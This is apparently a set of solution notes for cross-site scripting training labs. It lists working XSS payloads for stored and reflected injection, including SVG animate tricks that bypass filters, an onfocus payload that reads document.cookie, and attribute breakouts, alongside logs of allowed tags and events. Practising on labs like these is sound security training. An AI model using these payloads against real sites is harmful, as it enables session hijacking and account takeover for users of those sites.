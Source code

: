 # XSS Labs

## Stored XSS into HTML context with nothing encoded

* Payload
```html
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'> 
```

## Reflected XSS into HTML context with all tags blocked except custom ones
* Payload
```html
<script>location = 'https://ac081f4d1fda91bec1dd414e00810097.web-security-academy.net/?search=%3Cbigb0ss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script> 
```

## Reflected XSS with event handlers and href attributes blocked

* Allowed tags
```
[INFO] Allowed tag: a
[INFO] Allowed tag: text
[INFO] Allowed tag: animate
[INFO] Allowed tag: image
[INFO] Allowed tag: svg
[INFO] Allowed tag: title
```

* Payload
```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click Me</text></a>
```

## Reflected XSS with some SVG markup allowed

* Allowed tags
```
[INFO] Allowed event: text
[INFO] Allowed event: animatetransform
[INFO] Allowed event: image
[INFO] Allowed event: svg
[INFO] Allowed event: title
```

* Allowed events
```
[INFO] Allowed event: onbegin
```

* Payload
```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

## Reflected XSS into attribute with angle brackets HTML-encoded

* Payload
```html
" autofocus onfocus=alert(1) x="
```

## Stored XSS into anchor href attribute with double quotes HTML-encoded

